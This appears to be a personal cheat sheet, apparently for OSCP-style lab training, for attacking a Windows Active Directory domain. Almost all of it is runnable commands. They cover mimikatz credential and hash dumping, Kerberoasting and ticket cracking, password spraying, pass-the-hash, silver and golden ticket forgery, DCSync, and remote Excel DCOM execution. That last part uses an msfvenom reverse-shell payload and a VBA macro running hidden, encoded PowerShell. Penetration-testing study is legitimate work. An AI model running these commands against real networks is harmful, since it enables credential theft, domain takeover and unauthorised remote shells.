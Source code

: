 #### Active Directory

```
net user
net user /domain
net user jeff_admin /domain
net group /domain
```

#### LDAP Provider Path Format

```
LDAP://HostName[:PortNumber][/DistinguishedName]

```

```
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()

```


#### Logged on Users

```
Import-Module .\PowerView.ps1

Get-NetLoggedon -ComputerName client251

Get-NetSession -ComputerName dc01

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/powerview.ps1


import-module C:\Tools\active_directory\GetSPN.ps1
Get-SPN -type service -search "*.corp.com*"

https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/situational_awareness/network/Get-SPN.ps1


#### Cached creds retrieval

```
mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

sekurlsa::tickets

```

#### Windows system - mimikatz

```
C:\Tools\password_attacks\mimikatz.exe
privilege::debug
token::elevate
lsadump::sam

```

#### Service account attack

Requesting service ticket and display tickets

```
Add-Type -AssemblyName System.IdentityModel 

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'HTTP/CorpWebServer.corp.com'

klist
```

```
kerberos::list /export

```

Cracking the ticket

```
sudo apt update && sudo apt install kerberoast

python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000- Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

```
https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1

https://github.com/nidem/kerberoast

#### Cracking password using JTR

Use the script from repo
https://github.com/nidem/kerberoast


```
john --format=krb5tgs ./crack --wordlist=~/oscp/exer/wordlist.txt

python kirbi2john.py ~/oscp/exer/1-40a10000-offsec@MSSQLSvc~CorpSqlServer.corp.com~1433-CORP.COM.kirbi > crack

```
#### Using Invoke-kerberoast.ps1

```

Import-module Invoke-kerberoast.ps1

Get-DomainSPNTicket -SPN "HTTP/CorpWebServer.corp.com"

Get-Domain -Domain corp.com

Get-DomainUser -SPN

 Get-DomainUser -domain corp.com

Get-DomainUser


Invoke-kerberoast -OutputFormat john

Invoke-kerberoast -OutputFormat hashcat

hashcat -m 13100 -a 0 kerb-hash0.txt ./wordlist.txt --force

Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt"

```

#### Low and Slow Password guessing

```
net accounts

.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -File pass.txt -Admin
```
### Lateral movement

#### Pass the Hash

```
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
```

#### Overpass the Hash

```
sekurlsa::logonpasswords

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

klist - no ticket listed

net use \\dc01

klist - ticket listed after net use

 .\PsExec.exe \\dc01 cmd.exe

ipconfig

whoami
```
https://download.sysinternals.com/files/PSTools.zip


#### Pass the Ticket

  get the SID

`whoami /user` 

purge kerberos ticket

```
kerberos::purge

kerberos::list
```

The silver ticket command requires a username (/user), domain name (/domain), the domain SID (/sid), which is highlighted above, the fully qualified host name of the service (/target), the service type (/service:HTTP), and the password hash of the iis_service service account (/rc4).Finally, the generated silver ticket is injected directly into memory with the /ppt flag.

```
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt

kerberos::list

```

lsadump::dcsync /user:corp\iis_service

kerberos::hash /password:puttheservicepasswordhere

#### DCOM - Need TCP COM port 135 and SMB port 445 

POC Macro

```
 Sub mymacro()
Shell ("notepad.exe")
End Sub
```
Execute Excel Macro Remotely

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "172.16.175.5"))
$LocalPath = "C:\Users\jeff_admin.corp\myexcel.xls"
$RemotePath = "\\172.16.175.5\c$\myexcel.xls" 
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\172.16.175.5\c$\Windows\sysWOW64\config\systemprofile\Desktop" 
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\myexcel.xls") 
$com.Run("mymacro")

```

Generate shell code

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.175.10 LPORT=4444 -f hta-psh -o evil.hta
```
Split code

```
str = "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQ....."
n = 50
for i in range(0, len(str), n):
print "Str = Str + " + '"' + str[i:i+n] + '"'
```
Updated POC Macro

```
Sub MyMacro()
Dim Str As String
Str = Str + "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4Ad"
Str = Str + "ABQAHQAcgBdADoAOgBTAGkAegBlACAALQBlAHEAIAA0ACkAewA"

Str = Str + "EQAaQBhAGcAbgBvAHMAdABpAGMAcwAuAFAAcgBvAGMAZQBzAHM"
Str = Str + "AXQA6ADoAUwB0AGEAcgB0ACgAJABzACkAOwA="
Shell (Str)
End Sub
```

#### Golden ticket

Dumping password hashes
```
mimikatz # privilege::debug

mimikatz # lsadump::lsa /patch

```
Creating golden ticket

```
mimikatz # kerberos::purge

mimikatz # kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt

mimikatz # misc::cmd - Launching new cmd prompt with golden ticket injected

psexec.exe \\dc01 cmd.exe
```
